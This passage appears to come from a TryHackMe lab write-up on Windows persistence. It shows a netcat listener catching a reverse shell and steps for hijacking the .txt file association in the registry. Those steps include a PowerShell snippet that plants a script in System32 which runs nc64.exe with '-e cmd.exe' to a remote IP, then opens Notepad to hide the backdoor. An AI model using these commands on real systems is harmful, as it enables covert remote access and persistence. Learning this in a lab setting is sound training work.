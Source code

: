 ![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Backdoor%20Script%20Executed%20.png)

```Bash
root@ip-10-10-210-65:~# nc -lnvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.105.224 49982 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
7. `C:\flags\flag5.exe` from our reverse shell to run the **flag5.exe** program, which ended up displaying this task's flag onto our terminal
```PowerShell
C:\Windows\system32>C:\flags\flag5.exe
C:\flags\flag5.exe
THM{NO_SHORTCUTS_IN_LIFE}
```


#
## Hijacking File Associations

1. Started this room's machine
2. `regedit` from the compromised Windows machine to open up the Registry Editor (**Regedit**), which we'll then go and later modify the data in the **Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Classes\txtfile\shell\open\command** registry, since this is what'll get executed whenever we open a **.txt** file on the compromised WIndows machine
```PowerShell
C:\Users\Administrator>regedit
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit%20.txt.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit%20.txt%20Zoomed%20In.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit%20.txt%20pt%202.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit%20.txt%20pt%202%20Zoomed%20In.png)

3. `PowerShell` from the compromised Windows machine to open up PowerShell, which we'll then use to create a PowerShell (.ps1) script containing a payload that we'll use to connect back to our netcat listener that we'll later set up on our Linux machine, in the compromised machine's **C:\Windows\System32** directory
```PowerShell
C:\Users\Administrator>PowerShell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>
```
3.1 `$scriptPath = 'C:\Windows\System32\<SCRIPT NAME>.ps1'`
3.2 `$scriptContent = @"`
3.3 `Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe <MACHINE IP> <PORT NUMBER>"`
3.4 `C:\Windows\system32\NOTEPAD.EXE $args[0]`
3.5 `"@` 
3.6 `Set-Content -Path $scriptPath -Value $scriptContent`
```PowerShell
PS C:\Users\Administrator> $scriptPath = 'C:\Windows\System32\BackdoorScript.ps1'
>> $scriptContent = @"
>> Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.10.173.81 9999"
>> C:\Windows\system32\NOTEPAD.EXE $args[0]
>> "@
```